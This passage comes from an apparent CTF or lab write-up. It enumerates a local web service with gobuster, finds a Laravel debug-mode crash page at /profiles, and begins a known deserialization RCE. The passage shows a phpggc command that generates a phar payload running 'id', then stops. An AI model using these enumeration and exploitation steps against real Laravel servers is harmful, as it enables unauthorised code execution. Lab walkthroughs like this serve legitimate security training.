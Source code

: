 Running `feroxbuster` against it didn’t return anything. Eventually, knowing there had to be some reason for this site existing, I tried `gobuster`, and it found `/profiles`:

```

oxdf@hacky$ gobuster dir -u http://127.0.0.1:8000 -w /usr/share/seclists/Discovery/W
eb-Content/raft-medium-directories.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://127.0.0.1:8000
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/08/02 14:27:16 Starting gobuster in directory enumeration mode===============================================================
/profiles             (Status: 500) [Size: 616206]
...[snip]...

```

Visiting `/profiles` shows a crash:

![image-20210802143547930](https://0xdfimages.gitlab.io/img/image-20210802143547930.png)

But not only does it crash, but it returns a bunch of information. This is Laravel debug mode.

### Laravel Debug Mode RCE

#### Exploit

Goolgling for “laravel debug mode exploit”, the first hit is [this post](https://www.ambionics.io/blog/laravel-debug-rce):

![image-20210802143923384](https://0xdfimages.gitlab.io/img/image-20210802143923384.png)

There’s a PHP deserialization exploit that gets remote code execution against Laravel debug mode. The blog post is very detailed, and at the end, there’s a link to their [GitHub containing the exploit](https://github.com/ambionics/laravel-exploits). I’ll also need `phpggc`, available [here](https://github.com/ambionics/phpggc), to generate the deserialization payload.

#### POC

To show it works, I’ll start with the `id` command. First, I’ll generate the payload using `phpggc`:

```

oxdf@hacky$ php -d'phar.readonly=0' /opt/phpggc/phpggc --phar phar -o id.phar --fast-destruct monolog/rce1 system id

```
